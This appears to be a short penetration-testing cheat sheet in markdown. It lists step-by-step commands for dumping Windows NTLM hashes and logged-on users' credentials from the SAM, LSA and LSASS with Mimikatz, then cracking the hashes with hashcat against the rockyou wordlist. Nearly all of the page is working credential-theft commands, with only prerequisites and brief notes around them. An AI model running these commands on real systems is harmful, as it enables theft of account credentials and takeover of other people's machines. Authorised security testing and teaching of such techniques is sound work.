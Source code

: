 ```yaml
---
legal-banner: true
---
```


### **PREREQUISITES:**

- The attacker must have an account or a shell on the target server.
- The attacker requires administrative privileges.

### **EXTRACTING NTLM HASHES WITH MIMIKATZ**

1.  To check which users exist locally on the system, run:  
    `Get-LocalUser`
    
2.  Navigate to the Mimikatz directory and start Mimikatz with:  
    `.\mimikatz.exe`  
    
??? info "NOTE"

    Administrative privileges are required.

3.  Enable the debug privilege using:  
    `privilege::debug`
    
4.  Elevate privileges to SYSTEM using:  
    `token::elevate`
    
5.  Extract NTLM hashes from the SAM database:  
    `lsadump::sam`  
    `lsadump::lsa /patch`
    
6. Dump Credentials of All Logged-On Users:   
    `sekurlsa::logonpasswords`

??? info "NOTE"

    This command will dump hashes for all users logged on to the current workstation or server, including remote logins like Remote Desktop sessions.    

### **CRACKING NTLM HASHES WITH HASHCAT**

1. Save the NTLM hash to a file (e.g., `NTLM.hash`) using:  
    `echo "3ae8e5f0ffabb3a627672e1600f1ba10" > NTLM.hash`
    
2.  Identify the Correct Hashcat Mode for NTLM:    
    `hashcat --help | grep -i "ntlm"`  
    **NOTE:** The output should indicate mode `1000` for NTLM.
    
3.  Start the Cracking Process with Hashcat:   
    `hashcat -m 1000 NTLM.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force`